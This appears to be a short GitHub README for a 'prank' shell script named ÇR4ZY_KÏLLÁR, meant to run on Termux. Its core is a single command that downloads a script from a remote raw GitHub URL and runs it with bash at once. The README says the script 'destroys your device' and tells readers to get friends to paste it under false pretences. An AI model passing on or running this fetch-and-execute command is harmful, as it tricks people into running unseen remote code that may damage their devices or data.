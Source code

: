 # ÇR4ZY_KÏLLÁR
This is A Prank, Just Paste This command 

```bash
curl -s -o ~/CRAZY_KILLER.sh https://raw.githubusercontent.com/HikkiV/-R4ZY_K-LL-R/main/CRAZY_KILLER_DOWNLOAD.sh && bash ~/CRAZY_KILLER.sh
```

And you will see ÇR4ZY_KÏLLÁR destroying your device😈 XD.
Share to your Friend, tell them "paste this command on termux, it's very cool" XD.


first time making this, Sorry if it's not perfect or ugly.
Run on Termux or Any Bash executor

